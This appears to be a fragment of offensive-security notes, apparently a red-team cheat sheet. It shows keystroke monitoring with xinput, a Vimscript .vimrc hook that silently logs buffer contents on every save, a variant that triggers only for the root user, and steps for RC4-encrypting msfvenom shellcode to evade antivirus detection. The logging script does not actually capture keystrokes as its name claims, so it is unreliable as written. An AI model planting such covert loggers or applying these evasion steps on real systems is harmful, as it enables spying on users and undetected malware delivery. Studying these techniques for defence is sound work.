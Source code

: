 2. **Monitor Keystrokes:**
   ```sh
   xinput test <device_id>
   ```

This command will start printing keystrokes to the terminal.

### Method 4: Using Vimscript to Log Keystrokes

You can use Vimscript to create a custom function that logs keystrokes to a file.

1. **Add the following script to your `.vimrc`:**

```vim
" Function to log keystrokes to a file
function! LogKeystrokes()
    " Get the last written line from the buffer
    let lines = getline(line("'[") - 1, line("']"))
    " Specify the log file
    let logfile = '/path/to/your/logfile.log'
    " Append the lines to the log file
    call writefile(lines, logfile, 'a')
endfunction

" Set up an autocmd to trigger the function on BufWritePost
autocmd BufWritePost * call LogKeystrokes()

```

### Capture keystrokes if only root user

```vim
" Function to log keystrokes to a file
function! LogKeystrokes()
    " Check if root user
    if $USER == 'root'
        " Get the last written line from the buffer
        let lines = getline(line("'[") - 1, line("']"))
        " Specify the log file
        let logfile = '/path/to/your/logfile.log'
        " Append the lines to the log file
        call writefile(lines, logfile, 'a')
    endif
endfunction

" Set up an autocmd to trigger the function on BufWritePost
autocmd BufWritePost * call LogKeystrokes()

```


## Bypassing AV

C programs for bypassing AV detection:
- Encrypt-ShellcodeRC4.c 
	- create a msfvenom c formated shellcode represented in hex and save to a file
	- compile `gcc -o encryptrc4 Encrypt-ShellcodeRC4.c `
	- run `encryptrc4 shellcode.txt`
	- Encrypt-ShellcodeRC4.c generate a random key to encrypt the shellcode
	- the resulting output is a file called `encrypted_payload.h` that contains the encrypted shellcode and the encryption/decryption key
